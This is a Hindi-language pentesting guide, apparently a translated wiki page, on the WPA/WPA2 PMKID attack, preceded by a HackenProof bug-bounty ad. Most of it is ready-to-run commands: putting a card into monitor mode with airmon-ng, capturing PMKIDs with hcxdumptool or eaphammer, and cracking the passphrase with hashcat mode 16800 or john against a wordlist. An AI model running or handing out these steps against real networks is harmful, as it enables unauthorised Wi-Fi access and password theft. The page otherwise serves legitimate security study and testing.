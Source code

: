**वेब3 पेंटेस्टिंग में अनुभव प्राप्त करें**\
ब्लॉकचेन प्रोटोकॉल और स्मार्ट कॉन्ट्रैक्ट्स नई इंटरनेट हैं! उनके उभरते दिनों में वेब3 सुरक्षा को मास्टर करें।

**वेब3 हैकर लीजेंड बनें**\
प्रत्येक सत्यापित बग के साथ प्रतिष्ठा अंक प्राप्त करें और साप्ताहिक लीडरबोर्ड के शीर्ष पर विजयी बनें।

[**HackenProof पर साइन अप करें**](https://hackenproof.com/register) और अपने हैक्स से कमाई करना शुरू करें!

{% embed url="https://hackenproof.com/register" %}

## WPA/WPA2 PSK

### PMKID

2018 में hashcat लेखकों ने [एक नई प्रकार के हमले](https://hashcat.net/forum/thread-7717.html) का खुलासा किया जिसमें केवल **एक ही पैकेट** पर निर्भर नहीं होता है, लेकिन इसमें हमारे लक्ष्य AP के साथ किसी भी क्लाइंट की कनेक्शन की आवश्यकता नहीं होती है, बल्कि केवल हमलावर और AP के बीच संचार होता है।

यह पता चलता है कि **बहुत सारे** मॉडर्न राउटर्स AP द्वारा भेजे गए **पहले EAPOL** फ्रेम के अंत में एक **वैकल्पिक फ़ील्ड** जोड़ते हैं, जिसे `Robust Security Network` कहा जाता है, जिसमें `PMKID` शामिल होता है

मूल पोस्ट में समझाया गया है कि **PMKID** हमारे पास ज्ञात डेटा का उपयोग करके उत्पन्न किया जाता है:
```
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```
**चूंकि "PMK नाम" स्ट्रिंग स्थिर होती है, हम जानते हैं कि AP और स्टेशन का BSSID और `PMK` पूर्ण 4-वे हैंडशेक से प्राप्त किया गया है, इसे क्रैक करने और पासफ्रेज़ को पुनर्प्राप्त करने के लिए hashcat को यह सब चाहिए होता है!**\
विवरण [यहां](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/) से प्राप्त किया गया है।

इस जानकारी को **इकट्ठा** करने और स्थानीय रूप से पासवर्ड को **ब्रूटफ़ोर्स** करने के लिए आप निम्नलिखित कर सकते हैं:
```bash
airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1
```

```bash
#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```
**PMKIDs को जोड़ा गया** कंसोल में दिखाई देगा और यहां भी **सहेजा** जाएगा \_/tmp/attack.pcap\_/\
अब, कैप्चर को **hashcat/john** प्रारूप में परिवर्तित करें और इसे क्रैक करें:
```bash
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
कृपया ध्यान दें कि सही हैश का प्रारूप **4 भाग** का होता है, जैसे: _4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7\*566f6461666f6e65436f6e6e6563743034383131343838_\
\_\_यदि आपका हैश **केवल** **3 भाग** का है, तो यह **अमान्य** है (PMKID कैप्चर वैध नहीं था)।
